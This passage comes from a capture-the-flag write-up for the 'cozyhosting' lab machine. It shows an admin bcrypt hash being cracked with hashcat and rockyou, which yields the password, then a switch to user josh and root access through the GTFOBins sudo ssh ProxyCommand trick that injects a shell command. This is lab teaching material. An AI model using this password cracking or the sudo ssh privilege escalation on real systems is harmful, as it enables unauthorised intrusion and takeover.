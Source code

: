 ```bash
```

The `users` table contains the hash of the `admin` account. We can copy that into a file locally (`admin_hash`) and pass it to [`hashcat`](../../tools/passwords/hashcat.md).

```bash
# Writing the hash into a file
nano admin_hash
# Identifying the hash type
hashcat admin_hash /usr/share/wordlists/rockyou
# Cracking the hash
hashcat -m3200 admin_hash /usr/share/wordlists/rockyou
# Displaying the results
$ hashcat -m3200 admin_hash /usr/share/wordlists/rockyou --show
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

### Permissions

The cozyhosting machine has only 2 users: `root` and `josh`. Trying the password for the former does not work, but it does for the latter which has some interesting `sudo` permissions (Figure 13).&#x20;

```bash
# Switching users to josh
su josh
# Changing to its home directory
cd ~
# Listing the directory's content
ls -l
# Reading the user flag
cat user.txt
# Checking its sudo permissions
sudo -l
```

<figure><img src="../../.gitbook/assets/cozyhosting_josh.png" alt=""><figcaption><p>Figure 13: Switching user to <code>josh</code> and checking its permissions.</p></figcaption></figure>

Checking GTFOBins, as always when we find a binary that can be executed with elevated permissions, we find out that [there is a way](https://gtfobins.github.io/gtfobins/ssh/#sudo) to privilege escalate via the `sudo` and `ssh` combination.

```bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# cat /root/root.txt
7e3<REDACTED>4de
```

[^1]: Database Management System

[^2]: Database Admin

[^3]: Living off The Land

[^4]: Command Injection
